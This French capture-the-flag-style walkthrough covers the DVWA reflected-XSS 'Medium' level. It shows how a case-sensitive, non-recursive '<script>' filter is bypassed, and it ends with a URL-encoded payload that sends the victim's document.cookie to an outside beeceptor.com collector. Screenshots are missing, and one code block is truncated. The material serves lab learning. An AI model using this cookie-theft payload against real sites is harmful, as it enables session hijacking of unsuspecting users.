





# Niveau "Medium"

Sur ce nouveau challenge, la saisie utilisateur est réfléchie de la même manière que précédemment :



On tente à nouveau de faire apparaître une `alert()` box :



Les balises `<script>` et `</script>` semblent avoir été filtrées. Dans un premier temps, il nous faut tester des contournement simples :



Un mélange de minuscules/majuscules permet de contourner ce filtre. Une autre possibilité plutôt simple est de se dire que le filtre n'est sans doute pas récursif :



On se rend compte également que seul l'occurrence `<script>` est filtrée, aucune modification ne semble être effectuée sur l'occurrence `</script>`


Notre payload malicieuse de vol de cookie n'est donc que légèrement modifiée pour ce niveau :

```javascript
<sCriPt>document.write('')</script>
```



Soit l'URL :

```http
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3CsCriPt%3Edocument.write%28%27%3Cimg+src%3D%22https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%22+%2F%3E%27%29%3C%2Fscript%3E#
```

Lorsque la victime visitera note lien, ses cookies seront envoyés sur notre serveur malicieux :



